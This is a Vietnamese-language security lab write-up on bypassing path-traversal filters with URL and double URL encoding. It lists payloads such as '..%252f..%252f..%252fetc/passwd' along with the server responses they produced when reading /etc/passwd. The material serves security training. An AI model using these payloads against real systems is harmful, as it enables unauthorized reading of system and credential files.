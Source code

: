 # Common obstacles to exploiting path traversal vulnerabilities - Continued
Trong một số ngữ cảnh, chẳng hạn như trong đường dẫn URL hoặc `filename` của `multipart/form-data`, máy chủ web có thể loại bỏ bất kỳ chuỗi duyệt thư mục nào trước khi truyền dữ liệu đầu vào của bạn đến ứng dụng. Đôi khi bạn có thể bỏ qua loại khử trùng này bằng cách mã hóa URL, hoặc thậm chí mã hóa URL kép, các ký tự `../` Điều này sẽ tạo ra `%2e%2e%2f` và `%252e%252e%252f` tương ứng. Nhiều mã hóa không chuẩn khác nhau, chẳng hạn như `..%c0%af` hoặc `..%ef%bc%8f`, cũng có thể hoạt động.

# Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
Bài thực hành này chứa một lỗ hổng duyệt đường dẫn trong việc hiển thị hình ảnh sản phẩm.

Ứng dụng chặn dữ liệu đầu vào chứa các chuỗi duyệt đường dẫn. Sau đó, nó thực hiện `URL-Decode` của dữ liệu đầu vào trước khi sử dụng.

Để giải quyết bài thực hành, hãy truy xuất nội dung của tệp `/etc/passwd`.
## Kết quả
Nhập cả `../../../etc/passwd` và `%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd` --> lỗi 400

Play load `..%2f..%2f..%2fetc/passwd` --> `../../../etc/passwd` --> 400

Play laod `..%252f..%252f..%252fetc/passwd` -->`..%2f..%2f..%2fetc/passwd` --> `../../../etc/passwd` --> 200

Nhập `%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd` -->`%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd` --> `../../../etc/passwd` --> 200

* decode 1 lần thất bại, nhưng decode 2 lần thì thành công.



